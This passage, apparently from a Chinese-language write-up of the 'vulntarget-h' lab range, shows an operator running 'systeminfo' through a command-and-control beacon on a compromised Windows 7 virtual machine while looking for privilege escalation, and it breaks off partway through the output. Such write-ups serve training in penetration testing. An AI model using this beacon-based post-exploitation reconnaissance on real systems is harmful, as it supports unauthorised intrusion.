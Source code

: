 > ![Screenshot_2022-07-02_08-02-35.png](../images/vulntarget-h-WriteUp/Screenshot_2022-07-02_08-02-35.png)
> 
> + 提升权限。
> 
> + 使用`systeminfo`命令并没有找到可以提升权限的漏洞。
> 
> ```bash
> beacon> shell systeminfo
> [*] Tasked beacon to run: systeminfo
> [+] host called home, sent: 41 bytes
> [+] received output:
> 
> 主机名:           WIN-HF4NQED9HKF
> OS 名称:          Microsoft Windows 7 企业版 
> OS 版本:          6.1.7601 Service Pack 1 Build 7601
> OS 制造商:        Microsoft Corporation
> OS 配置:          独立工作站
> OS 构件类型:      Multiprocessor Free
> 注册的所有人:     Windows 用户
> 注册的组织:       
> 产品 ID:          00392-918-5000002-85557
> 初始安装日期:     2022/3/30, 10:48:57
> 系统启动时间:     2022/7/2, 13:07:54
> 系统制造商:       VMware, Inc.
> 系统型号:         VMware Virtual Platform
> 系统类型:         x64-based PC
> 处理器:           安装了 2 个处理器。
>                   [01]: Intel64 Family 6 Model 62 Stepping 4 GenuineIntel ~3000 Mhz
>                   [02]: Intel64 Family 6 Model 62 Stepping 4 GenuineIntel ~3000 Mhz
> BIOS 版本:        Phoenix Technologies LTD 6.00, 2020/11/12
> Windows 目录:     C:\Windows
> 系统目录:         C:\Windows\system32
> 启动设备:         \Device\HarddiskVolume1